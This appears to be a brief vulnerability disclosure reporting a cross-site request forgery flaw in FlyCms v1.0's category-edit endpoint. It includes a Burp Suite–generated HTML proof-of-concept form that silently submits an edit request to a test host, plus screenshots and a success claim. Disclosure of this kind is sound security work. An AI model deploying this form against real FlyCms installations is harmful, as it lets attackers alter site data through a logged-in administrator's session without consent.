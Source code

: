 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/share/ztree_category_edit

![1](https://github.com/sms2056/cms/assets/15358350/20b3889c-007a-4e91-9af8-b0d397157311)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/share/ztree_category_edit?id=1&name=%E7%A7%BB%E5%8A%A8%E5%BC%80%E5%8F%911" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/sms2056/cms/assets/15358350/a537d41f-20e2-4a63-bb2c-fd0e6a4c8888)


Successed

![3](https://github.com/sms2056/cms/assets/15358350/7b7ebd17-a9a6-4e44-8340-10300b4f9aef)
